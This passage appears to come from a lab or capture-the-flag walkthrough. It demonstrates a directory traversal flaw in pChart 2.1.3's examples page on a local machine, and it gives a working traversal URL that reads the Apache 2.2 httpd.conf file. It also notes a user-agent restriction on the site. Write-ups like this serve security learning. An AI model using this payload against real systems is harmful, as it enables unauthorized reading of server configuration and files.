 yes , it vulnerable to directory traversal , by using this let explore the site's config file

<img src="../img/Pasted image 20240626120137.png" alt="Example Image" width="1080"/>

add this path to parameter of URL

<img src="../img/Pasted image 20240626120159.png" alt="Example Image" width="1080"/>

later modified URL because , service Apache version running on machine was 2.2 `apache22`

```
# modified url apache 22 refers 2.2
http://192.168.0.170/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2f/usr/local/etc/apache22/httpd.conf
```

Gather Information about site , site has restriction for all browser agent expect Mozilla 4.0
